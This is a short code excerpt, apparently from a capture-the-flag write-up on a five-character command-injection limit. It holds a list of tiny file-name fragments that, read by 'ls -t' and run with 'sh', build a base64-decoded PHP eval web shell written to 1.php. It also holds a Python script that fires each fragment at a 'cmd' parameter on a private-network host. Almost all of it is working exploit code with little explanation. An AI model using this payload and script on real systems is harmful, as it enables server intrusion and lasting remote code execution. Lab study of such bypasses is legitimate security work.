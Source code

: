 ```bash
>dir
>f\>
>ht-
>sl
*>v
>rev
*v>0
>hp
>p\\
>1.\\
>\>\\
>-d\\
>\ \\
>64\\
>se\\
>ba\\
>\|\\
>7\\
>Sk\\
>X\\
>x\\
>Fs\\
>FV\\
>d\\
>X0\\
>k\\
>g\\
>bC\\
>h\\
>XZ\\
>gZ\\
>A\\
>aH\\
>w\\
>D9\\
>P\\
>S}\\
>IF\\
>{\\
>\$\\
>o\\
>ch\\
>e\\
sh 0
sh f
```

python脚本

```
#!/usr/bin/python
# -*- coding: UTF-8 -*-
 
 
import requests
 
url = "http://192.168.214.190/len_5.php?cmd={0}"
print("[+]start attack!!!")
with open("payload.txt","r") as f:
	for i in f:
		print("[*]" + url.format(i.strip()))
		requests.get(url.format(i.strip()))
 
#检查是否攻击成功
```